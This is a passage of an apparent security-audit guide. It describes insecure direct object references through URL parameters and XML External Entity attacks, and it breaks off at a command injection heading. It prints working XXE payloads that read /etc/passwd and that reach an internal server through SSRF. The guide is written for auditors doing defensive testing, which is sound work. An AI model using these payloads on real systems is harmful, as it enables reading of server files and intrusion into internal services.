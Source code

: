 ```bash
https://bank.example.com/view_balance?account_id=12345
```

By changing the `account_id` parameter, an attacker could potentially access other users' account balances. To find this vulnerability, an auditor could test URL parameters and input fields for direct object references without proper access controls.

**Example 2**: A file storage application allows users to download their files using the following URL:

```bash
https://storage.example.com/download?file_id=67890
```

By changing the `file_id` parameter, an attacker could potentially access other users' files. To find this vulnerability, an auditor could test URL parameters and input fields for direct object references without proper access controls.

#### 4\. XML External Entity (XXE)

**Example 1**: An application accepts XML input and processes it using an XML parser with external entities enabled. The following XML payload could be used to read the contents of the `/etc/passwd` file on the server:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

To find this vulnerability, an auditor could test areas where XML documents are parsed without proper validation or security configurations.

**Example 2**: An application processes XML input and uses an XML parser with external entities enabled. The following XML payload could be used to perform a Server-Side Request Forgery (SSRF) attack:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://internal.example.com/secret" >
]>
<foo>&xxe;</foo>
```

This payload fetches data from an internal server that may not be directly accessible to the attacker. To find this vulnerability, an auditor could test areas where XML documents are parsed without proper validation or security configurations.

#### 5\. Command Injection

**Example 1**: An application allows users to perform a DNS lookup using the following command:
